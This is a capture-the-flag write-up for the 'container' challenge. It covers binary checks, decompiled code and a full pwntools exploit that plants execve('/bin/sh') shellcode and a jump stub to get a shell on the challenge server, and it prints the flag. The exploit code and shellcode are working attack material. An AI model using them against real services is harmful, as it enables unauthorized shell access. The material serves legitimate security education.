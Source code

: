 This is a writeup for the [NGACTF](https://nicerc.org/events/nga-capture-the-flag/) challenge *container*.
For this challenge the only file provided is an executiable binary.
### Inital steps
The best idea is to first get a basic idea of what security mesaures are already present in the binary so we know what is feasible and what is not. Running checksec will provide exactly the information we desire. 
```shell
troy@troyscomputer$ checksec container
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      PIE enabled
RWX:      Has RWX segments
```
We can see that there are no stack canarries (so buffer overflows will be possible) as well as NX is disabled so the stack is executiable. 
### Getting a closer look
As they didn't provide source code, let's get a better look at whats going on by firing up [Ghidra](https://ghidra-sre.org/)
```c
int main() {
  char buf [5];
  char buf60 [60];
  code buf10 [10];
  void* code;
  do {
    printf("Choose a command:\n1: Use premium storage container 1\n2: Use premium storage container2\n3: Use secondary storage box\n4: Run the contents of your premium storage container\n>");
    fflush(stdout);
    fgets(buf,5,stdin);
    if (buf[0] == '1') {
      puts("This container provides 10 bytes of premium storage.");
      fflush(stdout);
      puts("A premium storage container allows you to run your content, too!");
      fflush(stdout);
      printf("Go ahead and store your content: ");
      fflush(stdout);
      fgets((char *)buf10,10,stdin);
    }
    if (buf[0] == '2') {
      printf("Sorry, but this container is already in use. You can use the premium storage incontainer1.");
      fflush(stdout);
    }
    if (buf[0] == '3') {
      puts("This storage box is for 50 bytes of extra content. You can\'t run it, but it won\'t takeup your premium storage space.");
      fflush(stdout);
      printf("Go ahead and store your content: ");
      fflush(stdout);
      fgets(buf60,50,stdin);
    }
    if (buf[0] == '4') {
      puts("Okay, I\'ll run the contents of your premium container!");
      fflush(stdout);
      code = buf10;
      (*(code *)code)();
    }
  } while( true );
}
```
The code looks pretty simple. It is contained entierly inside the main function which continually asks the user to pick an option that executes the desired function. Choosing "1" writes at most 10 bytes into buf10, "3" does the same for buf60, "2" does nothing for our purposes, and "4" *EXECUTES* buf10!
```c
puts("Okay, I\'ll run the contents of your premium container!");
fflush(stdout);
code = buf10;
(*(code *)code)();
```
Be sure to review [C function pointers](https://www.learn-c.org/en/Function_Pointers) if the syntax `(*(code *)code)();` looks *too* cryptic.
Great. All we need to do is select option 1, enter some x86 linux shellcode that gives a shell, select 4 to run our code, a shell pops up, and we get the flag!
[Shell Storm](http://shell-storm.org/shellcode/) is a great website that houses short snipits of machine code that do specific things. As this is a 32 bit linux executable we only want shellcode that for x86 linux.
[This shellcode](http://shell-storm.org/shellcode/files/shellcode-752.php) is perferect for our needs. It is equilivant to execve("/bin/sh") and happens to be nice and short at 21 bytes. Unfourtantly this is too long for buf10 because `fgets((char *)buf10,10,stdin);` will copy at most 9 characters into buf10 (don't forget the null-byte). However we can put the longer shell code into the bigger buffer and put code that simply jumps to the larger buffer into the 10 byte buffer.
The disassembly in Ghidra before the fgets call will tell us that the 60 byte buffer always starts 0x52 bytes below EBP.
```assembly_x86
LEA        EAX=>buf60,[EBP -0x52]
PUSH       EAX
CALL       fgets
```
The code we need will have to jump to EBP -0x52 in order to invoke the 21 byte shellcode there. With the help of [this website](https://defuse.ca/online-x86-assembler.htm) creating the machine code is easy.
```assembly_x86
mov    eax,ebp
sub    eax,0x52
jmp    eax
```
This assembler copies the stack base pointer (EBP) into eax then subtracts 0x52 (now eax points to the 60 byte buffer), finally the last instruction jumps there and starts executing our shellcode.
Clicking assemble gives us "\x89\xE8\x83\xE8\x52\xFF\xE0", the actual bytes of the machine code which will be executed by `(*(code *)code)();`
### Creating the exploit

Using pwn tools we can easily create a connect script the connects to their server and gives it our juicy code. The script is as easy as defining some constants and importing pwn tools,
```python
from pwn import *
shell = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

jmp60 = "\x89\xE8\x83\xE8\x52\xFF\xE0"
```
Connectint to the remote server and waiting for the prompt,
```python
r = remote("golf.virginiacyberrange.net", 40149)
r.recvuntil(">")
```
Choosing 1 and uploading the `jmp EBP-0x52` code
```python
r.sendline("1")
r.recvuntil("Go ahead and store your content:")
r.sendline(jmp60)
```
Choosing 3 and sending the shellcode,
```python
r.recvuntil(">")
r.sendline("3")
r.recvuntil("Go ahead and store your content:")
r.sendline(shell)
```
And selecting 4 to run our jmp + shellcode:
```python
r.recvuntil(">")
r.sendline("4")
print(r.recvline())
r.interactive()
```
A sample run:
```shell
troy@troyscomputer$ python maker.py
[+] Opening connection to golf.virginiacyberrange.net on port 40149: Done
Okay, I'll run the contents of your premium container!

[*] Switching to interactive mode
$ ls
bin
container
dev
flag
lib
lib32
lib64
$ cat flag
flag{ju5t_4_h0p_sk1p_and_4_jmp_to_exploit}
```

Heres the entire script:
```python
from pwn import *
shell = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

jmp60 = "\x89\xE8\x83\xE8\x52\xFF\xE0"

r = remote("golf.virginiacyberrange.net", 40149)
r.recvuntil(">")

r.sendline("1")
r.recvuntil("Go ahead and store your content:")
r.sendline(jmp60)

r.recvuntil(">")
r.sendline("3")
r.recvuntil("Go ahead and store your content:")
r.sendline(shell)

r.recvuntil(">")
r.sendline("4")
print(r.recvline())
r.interactive()
```
